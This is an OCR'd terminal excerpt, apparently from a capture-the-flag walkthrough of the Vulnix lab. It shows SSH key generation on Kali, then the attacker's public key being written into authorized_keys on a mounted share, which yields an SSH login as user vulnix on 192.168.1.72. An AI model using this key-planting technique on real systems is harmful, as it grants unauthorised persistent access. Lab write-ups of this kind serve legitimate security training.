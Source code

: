     46  
    47  
    48  
    49  
    50  
    51  
    52  
    53  
    54  
    55  
    56  
    57  
    58

|

    
    
    root@kali:~# ssh-keygen  
    Generating public/private rsa key pair.  
    Enter file in which to save the key (/root/.ssh/id_rsa):   
    Enter passphrase (empty for no passphrase):   
    Enter same passphrase again:   
    Your identification has been saved in /root/.ssh/id_rsa.  
    Your public key has been saved in /root/.ssh/id_rsa.pub.  
    The key fingerprint is:  
    SHA256:jAQAkGBjXyvc8yD2eGxR1fxY1z3nh/rxUFfuyfH3Uoc root@kali  
    The key's randomart image is:  
    +---[RSA 2048]----+  
    |**.... ...o     o|  
    |+ + o.o    o . o=|  
    |   * *.     + .++|  
    |  . *.=o   . ...*|  
    |   . =..S    ..+*|  
    |    o       . Eo*|  
    |             . =+|  
    |              o o|  
    |               . |  
    +----[SHA256]-----+  
    root@kali:~# cd .ssh  
    root@kali:~/.ssh# ls  
    id_rsa  id_rsa.pub  known_hosts  
    root@kali:~/.ssh# su vulnix  
    $ cd /tmp/mnt  
    $ mkdir .ssh  
    $ cd .ssh  
    $ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDV+bAWn9J+xwfVKkNd/TpwysAEVAU321XBxwc0qt8OXRJZC71/UOr/2m/QCeneJH/o0d4IiaZSJQWOTwVlpRvBeTLTRLu8T5OgOGjTF2TEL6Z8ILif2RS5QuPjFRRoW4TOvApNbcqpzkVtXcCQLlxXkO1KNA01LapaTfhh48l+bpzjlujFQTaw3m5FXB1aQASkweZLwF2T0+2anvX0gtB2QKwePbwb4zEIpcVHrucCe3j9Z2KYE7GcyJiOEUEyXi39GsypR3fRCcJTx2/TXkhByjkYgFJjnoBd/koMfpnWjtVHj+d6y97f1Srkrv+RB5mNiYcMN+W4bAU2m11163kr root@kali > authorized_keys  
    $ exit  
    root@kali:~/.ssh# ssh vulnix@192.168.1.72  
    Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)  
      